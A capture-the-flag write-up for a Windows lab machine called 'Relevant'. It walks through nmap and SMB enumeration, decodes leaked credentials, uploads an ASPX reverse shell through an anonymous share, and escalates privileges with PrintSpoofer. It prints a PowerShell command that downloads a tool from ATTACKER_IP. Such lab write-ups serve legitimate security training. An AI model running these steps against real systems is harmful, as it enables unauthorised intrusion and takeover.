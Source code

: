 ```yaml
---
title: "Relevant"
tags:
  - Medium
  - Windows
  - nmap
  - samba
  - Token Impersonation
  - PrintSpoofer
---
```


| Difficulty |  |  IP Address   |  |
| ---------- |--|:------------: |--|
|   Medium   |  |  10.10.72.53  |  |

---

### [ User Flag ]

We first start off with a basic `nmap` scan (top 1000 ports) on the target machine.

```
sudo nmap -sC -sV -vv 10.10.72.53
```

**Results:**

![screenshot1](../assets/images/relevant/screenshot1.png)

From the results, we can see that the following ports are open: **80 (HTTP)**, **135 (RPC)**, **139 & 445 (Samba)** and **3389 (Microsoft Terminal Services)**

Let's first take a look at the HTTP website:

![screenshot2](../assets/images/relevant/screenshot2.png)

We have a basic Windows Server page.

I did some manual enumeration of the website but was unable to find anything of interest. I also tried running a `gobuster` directory scan on the website, but unfortunately Gobuster was unable to find any hidden directories.

Hitting a dead-end, I decided to move on to enumerating the Samba server.

To do so, we can use `smbclient` to list out the shares that are accessible on the server. This can be done with the `-L` tag:

```
smbclient -L 10.10.72.53
```

![screenshot4](../assets/images/relevant/screenshot4.png)

Nice! Looks like there are a few shares that we can log into. Since the **nt4wrksv** share seems the most interesting, let's log into it!

---

*Note: Alternatively, we can use nmap scripts to enumerate the Samba server. The command is:*

``` 
nmap --script smb-enum-shares.nse -p445 <host>
```

---

As anonymous login is enabled on the share, we are able to log into the nt4wrksv share without needing a password. 

The share contained a **passwords.txt** file:

![screenshot5](../assets/images/relevant/screenshot5.png)

This file contained user passwords that were base64-encoded. I went ahead and decoded them:

![screenshot6](../assets/images/relevant/screenshot6.png)

We get 2 sets of user credentials:

> Bob : !P@$$W0rD!123

> Bill : Juw4nnaM4n420696969!$$$

With these credentials, I tried to log into the other Samba shares, but unfortunately they did not work. I also tried to log into the RDP service, but that was to no avail as well.

Hitting yet another dead-end, I decided to run a full `nmap` scan. Perhaps there are other ports open on the machine that were not detected initially.

```
sudo nmap -sC -sV -vv -p- -T4 --defeat-rst-ratelimit 10.10.72.53
```

*(The -T4 and the --defeat-rst-ratelimit tags are used to speed up the nmap scan greatly. We would not use these settings in a real-world application as it is very noisy. However, since we are scanning within a controlled CTF environment, we can go wild!)*

**Results:**

![screenshot7](../assets/images/relevant/screenshot7.png)

Apart from the ports that we scanned earlier, there are now 3 new open ports that were detected: **49663 (HTTP)**, **49667 (RPC)**, **49669 (RPC)**

What caught my attention was the HTTP server running on port 49663. Let's take a look:

![screenshot8](../assets/images/relevant/screenshot8.png)

This brings us to the same Windows Server page as before.

However, running a `gobuster` directory scan this time reveals a subdirectory called **/nt4wrksv**!

---

*Note: The /nt4wrksv entry is actually located at the very bottom of the dirbuster medium directory wordlist. Hence, I had to wait for Gobuster to completely go through the wordlist before it managed to detect this subdirectory!*

*This was a lesson on patience as I would have normally assumed that there were no more potential results once Gobuster had gone through about half of the wordlist, and would have stopped the scan. Fortunately, I let Gobuster finish the scan this time.*

---

![screenshot9](../assets/images/relevant/screenshot9.png)

As this directory has the same name as the Samba share that we accessed earlier, I assumed that directory is actually bringing us to the share itself.

To test this, I tried visiting **/nt4wrksv/passwords.txt**:

![screenshot10](../assets/images/relevant/screenshot10.png)

Sure enough, the contents of the 'passwords.txt' file in the SMB share was displayed! 

This is great as that means we can potentially obtain RCE by uploading a file into the share and accessing it via this web directory. With this, we can open up a reverse shell and gain a foothold into the target machine.

Using Wappalyzer on the main webpage, I found out that the framework that was being used was **Microsoft ASP.NET**:

![screenshot11](../assets/images/relevant/screenshot11.png)

As such, we will have to upload an ASPX reverse shell. We'll use this [file](https://github.com/borjmz/aspx-reverse-shell).

Using `smbclient`, I uploaded the reverse shell onto the **nt4wrksv** share. This can be done with the `put` command:

![screenshot12](../assets/images/relevant/screenshot12.png)

Next, I opened up a netcat listener and opened the reverse shell by visiting **/nt4wrksv/shell.aspx** on the web server:

![screenshot13](../assets/images/relevant/screenshot13.png)

With that, the reverse shell was successfully opened and we're in!

There is a user called Bob on the machine. We can obtain the user flag from his desktop:

![screenshot14](../assets/images/relevant/screenshot14.png)

---

### [ Root Flag ]

Next,let's find a way to escalate our privileges. 

We first check out the privileges that are enabled on our current account. We do this with the `whoami /priv` command:

![screenshot15](../assets/images/relevant/screenshot15.png)

Interesting! Looks like we have the **SeImpersonatePrivilege** privilege enabled. With this privilege enabled, we can use the [PrintSpoofer]((https://github.com/dievus/printspoofer)) tool to escalate our privileges.

---

*More information on how PrintSpoofer works can be found [here](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)*

---

We upload the PrintSpoofer tool onto our target machine by using Powershell to download it from a Python HTTP server that we have set up on our local machine:

```
powershell "Invoke-WebRequest -UseBasicParsing ATTACKER_IP/PrintSpoofer.exe -OutFile PrintSpoofer.exe"
```

Once the tool is downloaded, we can simply run it with:

```
.\PrintSpoofer.exe -i -c cmd 
```

This will open up a cmd prompt with root privileges:

![screenshot16](../assets/images/relevant/screenshot16.png)

And we have successfully escalated our privileges! With that, we can obtain the root flag located on the Administrator's desktop:

![screenshot17](../assets/images/relevant/screenshot17.png)

